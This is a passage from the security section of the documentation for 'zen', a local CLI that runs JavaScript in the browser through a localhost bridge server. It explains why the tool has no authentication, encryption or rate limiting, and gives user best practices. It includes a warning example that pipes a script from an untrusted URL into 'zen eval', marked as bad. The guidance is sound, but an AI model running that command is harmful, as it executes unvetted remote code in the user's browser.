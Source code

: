 **Implications**:
- Any local process can connect to the bridge server
- Any local process can execute JavaScript in your browser
- Malicious software on your machine can use the bridge

**Acceptable for local development tool**:
- If your machine is compromised, attacker already has access
- Localhost-only binding prevents remote abuse
- User controls when server is running (`zen server start/stop`)

**Future enhancement**: Optional token-based authentication for additional security layer.

### No Encryption

**WebSocket traffic unencrypted**: `ws://` instead of `wss://`

**HTTP endpoints unencrypted**: `http://` instead of `https://`

**Why this is acceptable**:
- Traffic never leaves localhost interface
- OS kernel handles localhost communication (no network)
- Faster performance without TLS overhead
- No certificate management needed

**Not acceptable if you modify HOST**: If you change binding to `0.0.0.0`, traffic would be unencrypted over network.

### No Rate Limiting

**Current status**: No rate limiting on API endpoints.

**Implications**:
- Local process could spam server with requests
- Could cause high CPU usage in browser tab
- Could cause memory buildup in server

**Acceptable for local development tool**:
- User controls both CLI and server
- Easy to stop server if needed
- Cleanup task removes old requests after 5 minutes

**Future enhancement**: Optional rate limiting for additional protection.

## 6. Best Practices

### For Users

#### Only Run Trusted JavaScript Code

```bash
# Good: Review script first
cat my_script.js
zen exec my_script.js

# Good: Understand inline code
zen eval "document.querySelectorAll('a').length"

# Bad: Run unknown script from internet
curl https://untrusted.com/script.js | zen eval  # DON'T DO THIS
```
